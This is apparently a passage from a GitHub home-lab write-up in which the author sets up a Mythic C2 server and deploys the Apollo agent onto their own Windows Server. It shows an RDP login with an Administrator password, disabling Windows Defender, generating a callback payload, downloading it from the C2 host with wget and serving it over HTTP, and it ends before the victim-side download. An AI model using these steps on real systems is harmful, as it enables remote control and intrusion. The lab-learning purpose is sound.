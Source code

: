 To connect to the **Windows Server** via **Remote Desktop**, I used the **xfreerdp** service with the following command:

```bash
xfreerdp /u:Administrator /p:Winter2024! /v:45.63.57.62:3389
```

This command allowed me to RDP into the **Windows Server** using my **Kali Linux VM**:
![RDP Access](https://github.com/user-attachments/assets/fe66748f-bbb3-4114-8e2d-9b20e2358caf)

Once logged in, I opened the **Command Prompt** and executed:

```bash
net user Administrator
```

This command allowed me to see which groups the Administrator account was a member of. I also went into the **Settings** and disabled **Windows Defender**. Finally, I established an SSH connection into the **Mythic Server**.

I went to the **Mythic** website to explore agents compatible with **Windows** and decided to use the **Apollo** agent. In the terminal, I typed the following command to install it:

```bash
./mythic-cli install github https://github.com/MythicAgents/Apollo.git
```

After a few minutes, the **Apollo** agent appeared under my Mythic agents:
![Apollo Agent Installed](https://github.com/user-attachments/assets/2d1579be-923c-4ed0-9b36-c7f0b2346c8d)

Next, I installed the **http** profile by running:

```bash
./mythic-cli install github https://github.com/MythicC2Profiles/http
```

Once installed, I created a new payload for **Windows** in Mythic, choosing the `WindowsExe` package and including all the necessary commands. I selected the **http C2 Profile** and, for the **Callback Host**, I entered `http://[mythic server's public IP]`. After completing the setup, I generated the payload.

I copied the download link and ran the following command in my terminal to download the file:

```bash
wget https://149.28.88.178:7443/direct/download/b8f70270-2709-4ee0-819b-2420cba3e725 --no-check-certificate
```

Once downloaded, I renamed the file to `apollo.exe`, created a directory named `1`, and moved the file into that directory.

To serve the file, I used Python's built-in HTTP module with the following code:

```bash
python3 -m http.server 9999
```

On my **Windows Server**, I opened **PowerShell** and used the following command to download the **Apollo** agent:
